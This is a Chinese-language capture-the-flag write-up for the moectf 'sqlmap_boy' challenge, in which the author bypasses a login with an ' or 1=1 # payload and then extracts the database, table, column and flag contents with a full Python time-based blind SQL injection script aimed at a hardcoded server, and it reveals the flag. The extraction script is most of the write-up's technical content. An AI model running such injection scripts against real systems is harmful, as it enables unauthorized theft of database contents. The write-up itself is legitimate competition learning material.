

# sqlmap_boy

在做题前该看看提示。

- <0> 校内网络攻击流量可能会被学校拦截，导致一些工具跑不通。这时不妨试试手工注入！<br> <1> 盲注是下下策！

sqlmap_boy，但是不能用sqlmap。先看看网页，在注释里找到了sql语句。



有了语句就可以很简单地找到闭合方法了。构造payload。

- '" or 1=1 #

在account输入框输入，password框直接不用管。直接就进来了，但是啥也没有，只有一个白屏黑字的网页，写着“我超黑客！”。看url发现有id参数，改变id为2，内容又变成了“你好强”。然后就没有然后了。拿bp爆破了前500个id，都没有其他的内容。看来这个sql注入不是绕过登陆，而是爆数据。痛苦的事情来了，我找了很久都没有发现回显，没有回显意味着只能使用盲注。查到了[dnslog](https://www.anquanke.com/post/id/98096)注入的方法，但是我自己试了一下好像不行，可能服务器不是windows？可以选择用布尔盲注和延时注入，因为页面在条件正确和错误的情况下是不一样的。可惜我不会写布尔盲注的python脚本，不知道咋判断，于是选择了延时注入。先放exp吧。

```python
from string import printable
import requests
import time
url="http://82.156.5.200:1045/login.php"
content=""
letters=printable
for pos in range(1,50):
    if len(content) != pos-1:
        break
    for i in range(len(letters)):
        #数据库名:moectf
        #poc="'\" union select 1,if(ascii(substr((database()),"+str(pos)+",1))="+ord(letters[i])+",sleep(2),1) #"
        #表名1:articles
        #poc=f"'\" union select 1,if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #表名2:flag
        #poc=f"'\" union select 1,if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #表名3:users
        #poc=f"'\" union select 1,if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 2,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #users字段1:id
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #users字段2:username
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 1,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #users表字段3:password
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 2,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #flag表字段1:flAg
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='flag' and table_schema=database() limit 0,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #内容1:moectf?
        #poc=f"'\" union select 1,if(ascii(substr((select flAg from flag limit 1,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #内容2:moectf{Ar3_you_
        #poc=f"'\" union select 1,if(ascii(substr((select flAg from flag limit 2,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #内容3:sCr1ptboy}
        poc=f"'\" union select 1,if(ascii(substr((select flAg from flag limit 3,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        data={'username':poc,'password':''}
        t1=time.time()
        res=requests.post(url,data=data)
        t2=time.time()
        if(t2-t1>2):
            content+=letters[i]
            print(content)
            break
```

珍爱生命远离盲注。提示已经明确说了不要用盲注了，我还是用了，因为找不到别的方法。出题人很邪恶，flag表的字段叫flAg，里面有3个内容，其中一个还是假的。没啥技术含量，就是抄了网上的延时注入语句。折磨是真的折磨，搞了至少一个小时，估计还不止。中途把pos变量放错位置了，放到了limit里，导致怎么都爆不出来。

我的方法应该是错的，等比赛结束看看官方wp。

- ### Flag
  > moectf{Ar3_you_sCr1ptboy}